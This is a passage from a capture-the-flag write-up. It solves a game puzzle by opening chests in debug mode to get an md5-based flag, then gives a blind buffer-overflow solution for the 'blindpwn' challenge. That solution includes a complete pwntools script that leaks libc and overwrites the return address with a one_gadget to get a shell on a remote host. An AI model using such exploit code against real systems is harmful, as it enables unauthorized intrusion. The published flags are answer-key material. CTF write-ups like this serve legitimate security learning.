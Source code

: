 Or, we can just use a hidden passage at the second bookshelf counted from right side in the tent of businessman.

Anyway, some of the chests can be opened, but others are impossible to be opened, this can be verify by opening the game in debug mode.

open debug mode in cmd:


```
Game.exe debug

```

We can open the 3rd, 8th, 2nd, 1st, 5th, 7th door in sequence.

Then,the result of arranging the number in the chest by the order of the rooms is `213697`, the flag is `*CTF{md5(213697)}`

Which is:
`*CTF{d6f3fdffbcb462607878af65d059f274}`

## Pwn

### blindpwn

Given checksec information (all protection disabled), and the libc version. Without the binary, we can only start guessing :/

Input `'A'*40` with newline will leak some information. This give me an intuition that the last byte of `RIP` is overwriten by `\x0a`. Then I found `'A'*40+p64(0x40070a)` will have the same behavior, which prove that my intuition is correct. Then I found that `'A'*40+p64(0x4006f6)` will print the stack information and wait for an input. From the stack infomation, I can get the libc address. Since we know the libc version, and we know where to control the `RIP`, I can overwrite the `RIP` with one_gadget.

Exploit:


```python
#!/usr/bin/env python

from pwn import *

host = '34.92.37.22'
port = 10000

r = remote(host, port)
r.sendlineafter('pwn!\n', 'A'*0x28+p64(0x4006f6))
l = r.recv()

for i in range(len(l)//8):
    if i == 9:
        libc = u64(l[i*8:i*8+8])

libc = libc - 240 - 0x20740 # libc_start_main
print 'libc:', hex(libc)

sleep(1)
r.sendline('a'*0x28+p64(libc+0x4526a)+p64(0)*30)

r.interactive()

```
